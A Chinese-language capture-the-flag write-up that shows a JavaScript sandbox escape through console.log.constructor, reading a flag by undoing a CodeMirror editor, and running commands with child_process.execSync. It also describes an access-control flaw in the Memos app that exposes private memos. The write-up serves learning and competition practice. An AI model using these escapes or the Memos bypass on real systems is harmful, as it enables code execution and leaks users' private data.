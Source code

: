 ### 概率题目概率过

抢到了本题的一血，和 WebPPL 确实是毫无关系，主要是基本等同于直接跑一个漏完了的 JavaScript 沙箱（

一个简单的执行任意代码的绕过方式如下，直接拿 `Function` 的 `constructor` 就可以：

```javascript
console.log.constructor('any code here')
```

剩下的就是怎么把 flag 拿出来了。

#### 前端开发

我的第一想法是看能不能拿到他自定义的 `console.log` 中的 `lastMessage`，但尝试无果，于是转向看编辑器。CodeMirror 可以直接通过如下方式拿到实例，然后 undo 到 flag 就完事了。

```javascript
// var cm=document.querySelector('.CodeMirror').CodeMirror;
// while (cm.getValue()) {
//     cm.undo(); // undo until the editor is cleared
// }
// cm.undo(); // undo to get flag
// document.title=cm.getValue();

globalStore.test = console.log.constructor("var cm=document.querySelector('.CodeMirror').CodeMirror;while(cm.getValue()){cm.undo();}cm.undo();document.title=cm.getValue();")
globalStore.test()

// The page title is: console.log("flag{eVal-Is-evIL-BuT-nEveR-MiND}")
```

#### 后端开发

更是简单，直接 `import("child_process")` 然后执行就完事了：

```
var test = console.log.constructor('console.log(import("child_process").then(function(cp){cp.execSync("/print_flag_2",{stdio:"inherit"})}))')

test()
```

### ICS 笑传之查查表

我没想到他鉴权做得这么烂（

注意到代码中 [对于 `VisibilityList` 的限制](https://github.com/usememos/memos/blob/b2f60758bc0d82790809b2d2674e18c373b77eb8/server/router/api/v1/memo_service.go#L915-L917) 仅限于未登录和登录后 filter 中包含了 `CreatorID` 的情况，那么我如果登录后不传 `CreatorID` 但是设置了 `visibilities` 包含 `PRIVATE` 会怎么样呢？

答案是他会把 `PRIVATE` 的 memo 也直接搜给你看。

本来这里应该有一个文档对应接口的链接，但是他的文档做得太烂了所以 [这个链接](https://memos.apidocumentation.com/reference#tag/memoservice/GET/api/v1/memos) 并没有办法跳转到对应的位置，所以我只能截个图给你看。

![API doc of Memos](https://i.dawnlab.me/1c8076ae7491b9d3b5d3a0f6c945e0fe.png)
